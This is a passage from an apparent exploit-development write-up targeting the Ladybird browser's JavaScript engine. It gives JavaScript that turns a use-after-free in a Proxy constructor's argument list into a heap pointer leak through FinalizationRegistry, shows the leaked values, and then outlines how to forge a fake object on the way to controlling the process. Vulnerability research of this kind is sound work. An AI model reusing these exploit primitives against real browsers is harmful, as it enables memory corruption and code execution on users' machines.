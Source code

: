 ```js
    linked.register(target, undefined, undefined, undefined, undefined, undefined)
  },
}

function Construct() {
  // [4]
  // read the linked list node, containing the pointer
  console.log(arguments)
}

let ConstructProxy = new Proxy(Construct, handler)

// [1]
// allocate a 0x30 chunk
// 0x8 * 5 (js values) + 0x8 (malloc metadata) = 0x30
new ConstructProxy(0x1, 0x2, 0x3, 0x4, 0x5)
```

The many `undefined` arguments on [3] make sure the _linked list node_ is made in our free area and not in other places.

`FinalizationRegistry` puts linked list nodes with object pointers on the memory, which is useful to find. Running the code, we get the double representation of the pointer. If we repeat it a few times, they change a little.

```ruby
➜  ladybird git:(b8fa355a21) ✗ Build/old/bin/js arguments.js
ArgumentsObject{ "0": 6.9077829341497e-310, "1": undefined, "2": 0, "3": 0, "4": 5 }
➜  ladybird git:(b8fa355a21) ✗ Build/old/bin/js arguments.js
ArgumentsObject{ "0": 6.8997364430636e-310, "1": undefined, "2": 0, "3": 0, "4": 5 }

```

We can get the pointer by packing it into bytes!

```python
>>> struct.pack("<d", 6.8997364430636e-310)[::-1].hex()
'00007f0350fc2118'

```

### Making a Fake Object

We can make a fake JavaScript object pointer in a similar way. We allocate a buffer into `arguments_list`, write our fake object pointer into it, and then use the fake object inside the constructor.
There are some things to consider:

- Our `free(arguments_list)` needs the vector to move, so the size of our structures needs to increase in steps big enough to make it move.
- We need to tag the fake object so the computer knows its type.

Other than that, it's similar, and we'll do it in the next part.

## Controlling the Computer
